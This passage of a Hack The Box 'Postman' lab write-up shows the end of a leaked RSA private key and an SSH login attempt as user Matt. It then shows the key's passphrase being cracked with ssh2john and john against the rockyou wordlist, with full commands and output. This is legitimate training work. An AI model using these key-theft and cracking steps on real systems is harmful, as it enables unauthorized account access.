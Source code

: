 ```bash
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

It belongs to user Matt, so this might be his key. I copy it to my local machine, set the correct permissions and try to log in with SSH as user Matt:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ chmod 600 id_rsa_matt  
                                                       
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ ssh matt@postman -i id_rsa_matt 
ssh: Could not resolve hostname postman: No address associated with hostname
                                                       
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ ssh matt@postman.htb -i id_rsa_matt                                    
The authenticity of host 'postman.htb (10.10.10.160)' can't be established.
ECDSA key fingerprint is SHA256:kea9iwskZTAT66U8yNRQiTa6t35LX8p0jOpTfvgeCh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'postman.htb' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa_matt':
```

The key is password protected, nothing easier than that. I use john to crack it:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ python /usr/share/john/ssh2john.py id_rsa_matt > id_rsa_matt_hash.txt

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_matt_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 3 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa_matt)
1g 0:00:00:14 91.15% (ETA: 22:34:55) 0.07092g/s 932491p/s 932491c/s 932491C/s 1766071..176599
1g 0:00:00:15 DONE (2021-09-09 22:34) 0.06480g/s 929468p/s 929468c/s 929468C/s     angelica..*7¡Vamos!
Session completed

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ john --show id_rsa_matt_hash.txt                                     
id_rsa_matt:computer2008

1 password hash cracked, 0 left
```
